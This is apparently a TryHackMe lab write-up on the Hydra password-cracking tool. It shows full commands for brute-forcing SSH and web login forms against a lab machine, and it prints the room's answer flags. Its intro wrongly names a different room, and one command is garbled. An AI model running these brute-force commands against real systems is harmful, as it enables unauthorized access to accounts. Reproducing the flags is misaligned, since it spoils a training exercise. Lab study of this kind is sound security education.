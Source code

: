 ```yaml
---
title: "Offensive Security Tooling: Hydra (TryHackMe)"
datePublished: Sat Nov 02 2024 20:18:25 GMT+0000 (Coordinated Universal Time)
cuid: cm30lvn8x000009m9229eb268
slug: offensive-security-tooling-hydra-tryhackme
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1730578674537/ee92f510-494c-443f-95da-879dac83501d.png
tags: tooling, tryhackme, write-up, offensive-security

---
```


In this article, I will write a write-up for Logs Fundamentals that covers Introduction to Logs, Types of Logs, Windows Event Logs Analysis, and Web Server Access Logs Analysis.

Start the AttackBox by pressing the **Start AttackBox** button at the top of this page. The AttackBox machine will start in Split-Screen view. If it is not visible, use the blue **Show Split View** button at the top of the page.

Press the green **Start Machine** button below to deploy the machine attached to this task, then navigate to [http://10.10.169.175](http://10.10.169.175/) *on the AttackBox (this machine can take up to 3 minutes to boot)*

Start Machine

## **Hydra Commands**

The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being `user` and a password list being `passlist.txt`, we’d use the following command:

`hydra -l user -P passlist.txt <ftp://10.10.169.175`\&gt;

For this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

### **SSH**

`hydra -l <username> -P <full path to pass> 10.10.169.175 -t 4 ssh`

| Option | Description |
| --- | --- |
| `-l` | specifies the (SSH) username for login |
| `-P` | indicates a list of passwords |
| `-t` | sets the number of threads to spawn |

For example, `hydra -l root -P passwords.txt 10.10.169.175 -t 4 ssh` will run with the following arguments:

* Hydra will use `root` as the username for `ssh`
    
* It will try the passwords in the `passwords.txt` file
    
* There will be four threads running in parallel as indicated by `t 4`
    

### **Post Web Form**

We can use Hydra to brute force web forms too. You must know which type of request it is making; GET or POST methods are commonly used. You can use your browser’s network tab (in developer tools) to see the request types or view the source code.

`sudo hydra <username> <wordlist> 10.10.169.175 http-post-form "<path>:<login_credentials>:<invalid_response>"`

| Option | Description |
| --- | --- |
| `-l` | the username for (web form) login |
| `-P` | the password list to use |
| `http-post-form` | the type of the form is POST |
| `<path>` | the login page URL, for example, `login.php` |
| `<login_credentials>` | the username and password used to log in, for example, `username=^USER^&password=^PASS^` |
| `<invalid_response>` | part of the response when the login fails |
| `-V` | verbose output for every attempt |

Below is a more concrete example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> 10.10.169.175 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

* The login page is only `/`, i.e., the main IP address.
    
* The `username` is the form field where the username is entered
    
* The specified username(s) will replace `^USER^`
    
* The `password` is the form field where the password is entered
    
* The provided passwords will be replacing `^PASS^`
    
* Finally, `F=incorrect` is a string that appears in the server reply when the login fails
    

You should now have enough information to put this to practice and brute force your credentials to the deployed machine!

Answer the questions below

1. Use Hydra to bruteforce molly's web password. What is flag 1? `THM{2673a7dd116de68e85c48ec0b1f2612e}`
    

use the following command: `$ hydra -l molly -P /usr/share/wordlists/rockyou.txt [Target_IP_Address] http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V` and if you’re not using Kali Linux remember that default path of rocky.tx is `/usr/share/wordlists/rockyou.txt`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730578539248/2af79612-ddc0-4d24-95aa-993add1acaba.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730578603595/5f3b3c5b-f1cc-4a33-9ef2-9eb44197726f.png align="center")

2. Use Hydra to bruteforce molly's SSH password. What is flag 2? `THM{c8eeb0468febbadea859baeb33b2541b}`
    

`hydra -l molly -P rockyou.txt 10.10.149.202 -t 4 ssh`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730578621020/129819b2-dcd8-42db-96a0-94ea3b340d47.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730578642009/98009564-6a6e-4369-b6e7-717791bb22f3.png align="center")

The following resources were helpful on this room [Medium](https://medium.com/@debrikchakraborty200/hydra-tryhackme-walkthrough-a8a3a3aabebb) and [YouTube](https://www.youtube.com/watch?v=B_TTVk9L9ew).

Thank you for reading my article. Please leave any questions or comments on improving my learning journey and the THM challenges. We can also connect more on [**LinkedIn**](https://www.linkedin.com/in/sharon-jebitok) or [**X**](https://x.com/SharonJebitok)**.**
